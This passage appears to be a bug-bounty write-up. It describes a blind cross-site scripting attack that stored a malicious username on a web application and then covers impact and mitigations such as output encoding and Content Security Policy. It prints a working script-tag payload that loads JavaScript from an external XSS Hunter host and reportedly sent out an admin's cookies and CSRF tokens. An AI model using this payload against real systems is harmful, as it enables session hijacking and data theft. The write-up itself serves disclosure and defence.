 ## 2. Injecting the Payload

I crafted a **Blind XSS payload** using **XSS Hunter**:

```html
"><script src="https://mianhammad.xsshunter.com/xss.js"></script>
```

- The payload was injected into the **username field**.
- Upon registration, the application stored this value in its database.

# 3. Waiting for Execution

![](https://miro.medium.com/v2/resize:fit:788/1*icU2g8yTwcPyglxI2A7QEg.png)

- Since it was a **Blind XSS**, I had to wait until an admin accessed the compromised entry.
- The next day, **XSS Hunter** logged the execution, capturing **screenshots of the admin panel interface**.
- The payload exfiltrated **cookies, CSRF tokens, and other sensitive data**, leading to a **potential full admin takeover**.

# Impact of the Vulnerability

A **successful Blind XSS attack** can have **severe consequences**, including:

**Admin Panel Takeover** — If an administrator’s session is hijacked, an attacker gains full control over the platform.

**Data Exposure** — Accessing sensitive user records, payment details, and internal reports.

**Privilege Escalation** — Exploiting the admin session to perform malicious actions like modifying user accounts.

**Widespread Internal Compromise** — If the application is part of a larger enterprise system, attackers can pivot into other areas.

# Mitigation Strategies for Developers & Pentesters

# 1. Implement Output Encoding

- Encode user input before rendering it in HTML, JavaScript, or inside attributes.
- Use security libraries like `DOMPurify` to sanitize input effectively.

# 2. Apply Content Security Policy (CSP)

- Restrict script execution to trusted sources.
- Use the following CSP directive to prevent inline scripts:

```bash
Content-Security-Policy: default-src 'self'; script-src 'self';
```

---